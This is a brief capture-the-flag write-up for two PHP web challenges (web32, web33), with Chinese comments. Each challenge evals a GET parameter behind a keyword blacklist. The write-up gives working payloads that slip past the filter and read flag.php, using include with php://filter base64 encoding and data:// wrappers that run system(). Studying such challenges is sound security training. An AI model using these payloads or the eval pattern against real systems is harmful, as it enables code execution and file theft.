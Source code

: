 

## web32

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```



```
c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-
encode/resource=flag.php
//include可以不用括号，后面直接跟变量不用空格，分号可以用?>代替
//利用filter协议读文件，将flag.php通过base64编码后进行输出。这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做php文件执行了，而通过编码后则可以读取文件源码。使用的convert.base64-encode，就是一种过滤器。
```



```
data伪协议
把一些体量比较小的数据直接嵌入在页面里，而不使用外部链接。data:text/plain是嵌入文本
c=include$_GET[1]?>&1=data://text/plain,<?php system("cat flag.php");?>
c=include$_GET[1]?>&1=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```



## web33

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```



```
c=include$_GET[1]?>&1=php://filter/read=convert.base64-
encode/resource=flag.php

c=include$_GET[1]?>&1=data://text/plain,<?php system("cat flag.php");?>
```
